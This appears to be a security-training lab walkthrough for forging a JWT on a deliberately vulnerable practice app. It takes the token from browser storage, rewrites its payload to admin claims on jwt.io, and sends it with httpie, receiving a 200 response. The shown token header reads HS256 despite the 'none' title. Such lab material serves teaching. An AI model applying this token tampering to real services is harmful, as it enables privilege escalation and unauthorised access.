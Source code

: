 ## 'none' Signed Token

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.

![](img/login-page.png)


##### Step 3:

* Using `email` and `password` login to the application.

![](img/login-page.png)

##### Step 4:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer`,  select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 5:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `token`
    
    ![](img/get_token.png)

#### Step 6:

* Open https://jwt.io/ and paste the token. Tamper the value in Payload section to 


    {
    "username": "admin",
    "role": "admin",
    "email": "admin@widget.co"
    }


![](img/tamper-jwt.png)


##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)

##### Step 8:

* Run ` http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<paste the copied token>`

```commandline
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 25 Sep 2018 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```
